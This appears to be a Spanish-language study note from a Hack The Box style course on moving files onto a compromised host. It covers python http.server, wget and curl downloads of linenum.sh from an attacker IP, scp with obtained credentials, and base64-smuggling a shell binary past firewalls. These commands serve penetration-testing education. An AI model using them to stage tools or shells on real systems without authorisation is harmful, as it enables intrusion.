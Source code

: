 # Transfering Files

### Transferencia de Archivos Usando `wget` y `cURL`

Existen múltiples métodos para transferir archivos entre tu máquina local y un servidor remoto. Uno de los métodos más comunes implica ejecutar un servidor HTTP en Python en tu máquina local y luego utilizar herramientas como `wget` o `cURL` para descargar el archivo desde el host remoto. A continuación, se detalla cómo realizar este proceso.

**Paso 1: Configurar un Servidor HTTP en Python**

Primero, navega al directorio que contiene el archivo que deseas transferir y ejecuta un servidor HTTP utilizando Python:

```bash
# Navegar al directorio /tmp
sherlock28@htb[/htb]$ cd /tmp

# Iniciar un servidor HTTP en el puerto 8000
sherlock28@htb[/htb]$ python3 -m http.server 8000
```

Esto iniciará un servidor HTTP que escucha en todas las interfaces de red (`0.0.0.0`) en el puerto `8000`.

**Paso 2: Descargar el Archivo en el Host Remoto Usando `wget`**

Una vez que el servidor HTTP está en funcionamiento en tu máquina local, puedes descargar el archivo en el host remoto utilizando `wget`:

```bash
# En el host remoto, descargar el archivo linenum.sh desde tu máquina local
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
```

**Notas Importantes:**

* **IP y Puerto:** Asegúrate de reemplazar `10.10.14.1` con la dirección IP de tu máquina local y verificar que el puerto `8000` esté abierto y no bloqueado por un firewall.
* **Archivo:** En este ejemplo, el archivo que se transfiere es `linenum.sh`.

**Paso 3: Descargar el Archivo Usando `cURL` (Si `wget` No Está Disponible)**

Si el host remoto no tiene `wget` instalado, puedes utilizar `cURL` para realizar la descarga:

```bash
# En el host remoto, descargar el archivo linenum.sh usando cURL
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

**Explicación de la Comando:**

* `curl`: Herramienta de línea de comandos para transferir datos con sintaxis de URL.
* `http://10.10.14.1:8000/linenum.sh`: URL desde donde se descarga el archivo.
* `-o linenum.sh`: Especifica el nombre del archivo de salida.

### Transferencia de Archivos con `SCP`

Otra opción para transferir archivos es utilizar `scp`, siempre que tengamos credenciales de acceso SSH en el host remoto. El proceso se realiza de la siguiente manera:

**Transferir el archivo con `scp`**

Si ya hemos obtenido las credenciales SSH del usuario en el host remoto, podemos transferir archivos usando el siguiente comando:

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

Al ejecutar este comando, se solicitará la contraseña del usuario en el host remoto:

```css
user@remotehost's password: *********
```

El archivo `linenum.sh` se transferirá al directorio `/tmp/` del host remoto.

> **Nota:** Especificamos el nombre del archivo local después del comando `scp`, seguido de la ubicación en el host remoto donde se guardará, después de `:`.

### Transferencia de Archivos con Base64

En algunos casos, no podremos transferir archivos directamente, como cuando el host remoto tiene protecciones de firewall que impiden descargar archivos desde nuestra máquina. En situaciones como esta, podemos utilizar un truco simple: codificar el archivo en formato Base64, luego copiar la cadena codificada al servidor remoto y decodificarla allí. Aquí te muestro cómo hacerlo.

1.  **Codificar el archivo en Base64**

    Supongamos que queremos transferir un archivo binario llamado `shell`. Primero, lo codificamos en Base64 con el siguiente comando:

    ```bash
    base64 shell -w 0
    ```

    Esto generará una cadena Base64 larga similar a esta:

    ```php-template
    f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
    ```
2.  **Decodificar el archivo en el host remoto**

    Ahora, copiamos la cadena Base64 generada y la pegamos en el host remoto. Luego, utilizamos el siguiente comando para decodificarla y guardar el archivo:

    ```bash
    echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
    ```

    Este comando decodificará la cadena Base64 y generará el archivo `shell` en el host remoto.

### Validando la Transferencia de Archivos

Para asegurarnos de que un archivo se haya transferido correctamente, podemos utilizar el comando `file` para verificar su formato:

```bash
user@remotehost$ file shell
```

Este comando nos devolverá información sobre el tipo de archivo. Por ejemplo:

```yaml
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Como podemos ver, al ejecutar el comando `file` sobre el archivo `shell`, se indica que es un binario ELF, lo que significa que la transferencia fue exitosa.

#### Verificación con MD5

Para asegurarnos de que el archivo no se corrompió durante el proceso de codificación y decodificación, podemos comparar su hash MD5. Primero, calculamos el hash MD5 en nuestra máquina local:

```bash
sherlock28@htb[/htb]$ md5sum shell
```

Esto generará una salida similar a esta:

```
321de1d7e7c3735838890a72c9ae7d1d shell
```

Luego, en el servidor remoto, ejecutamos el mismo comando sobre el archivo transferido:

```bash
user@remotehost$ md5sum shell
```

Deberíamos obtener el mismo hash MD5:

```
321de1d7e7c3735838890a72c9ae7d1d shell
```

Si ambos hashes coinciden, significa que el archivo se transfirió correctamente sin alteraciones.
